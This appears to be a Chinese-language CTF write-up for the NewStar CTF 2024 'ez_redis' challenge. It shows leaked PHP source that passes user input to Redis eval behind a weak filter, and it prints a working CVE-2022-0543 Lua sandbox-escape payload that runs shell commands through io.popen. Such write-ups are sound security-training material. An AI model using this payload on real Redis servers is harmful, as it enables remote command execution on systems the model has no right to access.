 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# ez_redis

考了个 Redis 命令执⾏以及其历史漏洞

![redis 语法示例](/assets/images/wp/2024/week5/ez_redis_1.png)

在这里其实给出了示例，结合题目不难发现就是个 Redis 语法

如果你有信息收集意识的话还会发现有源码泄露，访问 `/www.zip` 即可

关键点在：

```php
<?php
if(isset($_POST['eval'])){
    $cmd = $_POST['eval'];
    if(preg_match("/set|php/i", $cmd))
    {
        $cmd = 'return "u are not newstar";';
    }

    $example = new Redis();
    $example->connect($REDIS_HOST);
    $result = json_encode($example->eval($cmd));

    echo '<h1 class="subtitle">结果</h1>';
    echo "<pre>$result</pre>";
}
?>
```

搜索 Redis 常⽤利⽤⽅法，发现如果过滤了 `set` `php`，那么我们很难通过写 webshell，写⼊计划任务、主从复制来进行 getshell

于是我们搜索⼀下 Redis 5 的历史漏洞

发现 CVE-2022-0543 值得⼀试: [Redis Lua 沙盒绕过命令执行（CVE-2022-0543）](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)

于是我们得到了⼀个 payload:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

由于我们⽹站执⾏的是 redis 命令

于是去掉外⾯的 eval 即可

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res
```

![获取到 flag](/assets/images/wp/2024/week5/ez_redis_2.png)
